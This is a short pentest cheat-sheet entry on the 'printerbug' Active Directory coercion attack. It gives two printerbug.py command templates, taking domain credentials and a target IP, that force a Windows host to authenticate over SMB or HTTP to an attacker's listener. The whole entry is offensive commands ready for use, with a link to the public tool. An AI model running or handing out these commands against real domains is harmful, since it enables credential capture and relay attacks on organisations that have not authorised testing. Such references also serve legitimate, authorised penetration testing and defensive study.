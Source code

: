 
# printerbug

% printerbug, Active directory
#plateform/linux  #target/remote #cat/ATTACK/COERCE 

## coerce to auth over SMB
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

```
printerbug.py '<domain_fqdn>/<user>:<password>'@<target_ip> <listener_ip>
```

## coerce to auth over HTTP
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

```
printerbug.py '<domain_fqdn>/<user>:<password>'@<target_ip> WIN-JUBEAZ@80/files
```